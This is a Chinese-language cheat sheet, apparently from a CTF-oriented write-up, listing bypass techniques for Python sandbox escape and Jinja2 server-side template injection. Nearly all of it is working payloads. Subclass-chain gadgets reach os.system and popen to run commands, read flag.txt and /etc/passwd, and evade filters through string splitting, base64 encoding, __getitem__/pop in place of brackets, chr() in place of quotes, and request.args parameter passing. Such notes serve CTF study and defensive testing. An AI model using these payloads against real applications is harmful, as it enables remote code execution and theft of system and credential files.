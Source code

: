 这里记录一下常见的bypass思路

拼接
object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')

().__class__.__bases__[0].__subclasses__()[40]('r','fla'+'g.txt')).read()

编码
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls').read()")

等价于

().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['ZXZhbA=='.decode('base64')]("X19pbXBvcnRfXygnb3MnKS5wb3BlbignbHMnKS5yZWFkKCk=".decode('base64'))(可以看出单双引号内的都可以编码)

同理还可以进行rot13、16进制编码等

过滤中括号[]

getitem()

"".__class__.__mro__[2]
"".__class__.__mro__.__getitem__(2)
pop()

''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()

字典读取

__builtins__['eval']()
__builtins__.eval()
经过测试这种方法在python解释器里不能执行，但是在测试的题目环境下可以执行
![](https://mmbiz.qpic.cn/mmbiz_png/1N39PtINn8vv7KaA050aUefyTRxicXz0yjyqzcqqNFtbIyRdOej2QQrecT38PVziaQ8pKs9QLfwYtzf42gn6vGeQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

过滤引号
先获取chr函数，赋值给chr，后面拼接字符串

{% set
chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr
%}{{
().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()
}}

或者借助request对象：（这种方法在沙盒种不行，在web下才行，因为需要传参）

{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd

PS：将其中的request.args改为request.values则利用post的方式进行传参

{{
().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read()
}}&cmd=id
